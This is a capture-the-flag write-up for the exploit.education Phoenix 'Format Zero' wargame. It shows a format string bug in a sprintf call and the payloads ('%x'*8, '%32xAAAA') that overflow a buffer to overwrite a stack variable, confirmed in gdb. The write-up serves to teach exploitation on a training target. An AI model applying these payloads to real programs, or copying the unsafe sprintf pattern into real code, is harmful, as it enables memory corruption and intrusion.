```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x0"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Format 0

Write-up for: [Format Zero](https://exploit.education/phoenix/format-zero/)

<!--more-->

The goal is to change the changeme variable of the `locals` struct. Data is read
from stdin to the local `buffer` array. It is properly bounds checked and null-terminated.
Then, data from the `buffer` variable is written to `locals.dest` using `sprintf`.

We can confirm that the read is properly bounds-checked:

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*33' | ./format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
```

# The bug

The usage of sprintf is incorrect:

```C
sprintf(locals.dest, buffer);
```

This call does not make use of format strings (`sprintf(dest, "%s", buffer);`) but directly
uses user input as the format string. Thus, as an attacker, we can provide a string as input
containing format specifiers.

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "%s"*16' | ./format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Segmentation fault
```

Depending on the format string, this can lead to a crash. Or, in another case:

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "%x"*8' | ./format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

What happened here?

# Analysis

The length of the user provided buffer does not matter since we can use format string modifiers to
define the length of what is written by `sprintf`. By doing so, we can have user input shorter that 15 characters
but overflow the `dest` buffer by generating a longer string.

To precisely overwrite `changeme` we need our string to have 32 characters of padding and then a 4-byte value 
we want changeme to be.

Let's confirm this theory with gdb. First we need to find out where changeme is stored:

```
0x08048584 <+79>:    mov    DWORD PTR [ebp-0xc],0x0
```

This instruction sets `changeme` to zero. It is located at `ebp-0xc = 0xffffd5ec`. Let's run 
with our payload and look at that word on the stack:

```
(gdb) run < <(python -c 'print "%32xAAAA"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/phoenix/i486/format-zero < <(python -c 'print "%32xAAAA"')

(gdb) x/xw $ebp-0xc
0xffffd5ec:     0x41414141
```

There are our A's. Done :).


